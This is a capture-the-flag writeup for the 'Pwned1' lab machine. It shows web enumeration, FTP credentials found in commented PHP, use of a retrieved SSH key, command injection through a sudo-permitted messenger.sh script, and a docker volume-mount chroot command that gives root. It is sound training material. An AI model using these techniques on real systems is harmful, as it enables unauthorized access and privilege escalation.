

## Pwned1: Writeup

Nmap reveals three ports open. Checking ftp, I can't access it without creds.
Moving on to port 80. The index page is just a message that the website has suffered some sort of breach. 


The only real thing of interest is that there are comments in the source code, which suggests that there might be comments elsewhere as this box unfolds:


Fuzz the web root:

```bash
$ gobuster dir -u http://192.168.171.95/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.171.95/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/06 15:22:30 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 3065]
/robots.txt           (Status: 200) [Size: 61]
/server-status        (Status: 403) [Size: 279]
```

Check out `robots.txt`:

```bash
$ curl -s http://192.168.171.95/robots.txt
# Group 1

User-agent: *
Allow: /nothing
Allow: /hidden_text
```

In `hidden_text`, I find `secret.dic`, which looks like a list of possible enpoints on the webserver.

I'll use this to fuzz the webroot again:

```bash
$ ffuf -u http://192.168.171.95FUZZ -w secret.dic

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.171.95FUZZ
 :: Wordlist         : FUZZ: secret.dic
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 3065, Words: 1523, Lines: 76, Duration: 42ms]
/pwned.vuln             [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 41ms]
:: Progress: [22/22] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Only one return: `pwned.vuln`

Checking out the source on `pwned.vuln`, I find this:

```html
<?php
//      if (isset($_POST['submit'])) {
//              $un=$_POST['username'];
//              $pw=$_POST['password'];
//
//      if ($un=='ftpuser' && $pw=='B0ss_Pr!ncesS') {
//              echo "welcome"
//              exit();
// }
// else
//      echo "Invalid creds"
// }
?>
```

I apply these to ftp and I'm able to login:

```bash
$ ftp 192.168.171.95
Connected to 192.168.171.95.
220 (vsFTPd 3.0.3)
Name (192.168.171.95:lemmy): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

I'll get the files in the ftp share:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||53007|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||49356|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r--    1 0        0              75 Jul 09  2020 note.txt
226 Directory send OK.
ftp> mget *
mget id_rsa [anpqy?]? y
229 Entering Extended Passive Mode (|||50508|)
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
100% |****************************************************************************************************************|  2602        1.42 MiB/s    00:00 ETA
226 Transfer complete.
2602 bytes received in 00:00 (55.87 KiB/s)
mget note.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||21780|)
150 Opening BINARY mode data connection for note.txt (75 bytes).
100% |****************************************************************************************************************|    75       91.89 KiB/s    00:00 ETA
226 Transfer complete.
75 bytes received in 00:00 (1.77 KiB/s)
```

The note indicates a user, ariana:

```bash
$ cat note.txt

Wow you are here

ariana won't happy about this note

sorry ariana :(
```

Try out the ssh key with user ariana. It works:

```bash
$ ssh -i id_rsa ariana@192.168.171.95
The authenticity of host '192.168.171.95 (192.168.171.95)' can't be established.
ED25519 key fingerprint is SHA256:Eu7UdscPxuaxyzophLkeILniUaKCge0R96HjWhAmpyk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.95' (ED25519) to the list of known hosts.
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ariana@pwned:~$ whoami
ariana
ariana@pwned:~$ id
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
ariana@pwned:~$ hostname
pwned
ariana@pwned:~$ hostname -I
172.17.0.1 192.168.171.95
```

Grab `local.txt`:

```bash
ariana@pwned:~$ cat local.txt
16dec2568cc0787187642193664e1870
```



Check out the note in the directory:

```bash
ariana@pwned:~$ cat ariana-personal.diary
Its Ariana personal Diary :::

Today Selena fight with me for Ajay. so i opened her hidden_text on server. now she resposible for the issue.
```

Not very helpful anymore, since we have used the ssh key. Check `sudo` privileges:

```bash
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

I can run `messenger.sh` as selena. Check it out:

```bash
ariana@pwned:/home$ cat messenger.sh
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""
```

The vulnerability here is with the `msg` variable. Replace it with a command, and it will execute in the place of `$msg`. In particular, replace it with `bash -i` to spawn an interactive shell. I get no prompt, but I get some output to indicate there is code execution. To fix this, I passed it a reverse shell and caught it

```bash
selena@pwned:/home/ariana$ whowhoami
selena
selena@pwned:/home/ariana$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

selena is part of the docker group. Let's see if docker is running:

```bash
selena@pwned:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:90:85:bc:dd brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:bf:53:5c brd ff:ff:ff:ff:ff:ff
    inet 192.168.171.95/24 brd 192.168.171.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:febf:535c/64 scope link
       valid_lft forever preferred_lft forever
selena@pwned:/$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        2 years ago         88.3MB
<none>              <none>              e13ad046d435        2 years ago         88.3MB
alpine              latest              a24bb4013296        2 years ago         5.57MB
debian              wheezy              10fcec6d95c4        4 years ago         88.3MB
```

It is, and judging by one of the names, this is the intended route to privesc. There's a GTFOBins [entry](https://gtfobins.github.io/gtfobins/docker/) on this. Just run the command and I'm root:

```bash
selena@pwned:/$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
proof.txt  root.txt
# cat proof.txt
cat proof.txt
7a1ec1279226bf681a1a8e6d5c78c430
# hostname -I
hostname -I
172.17.0.2
```


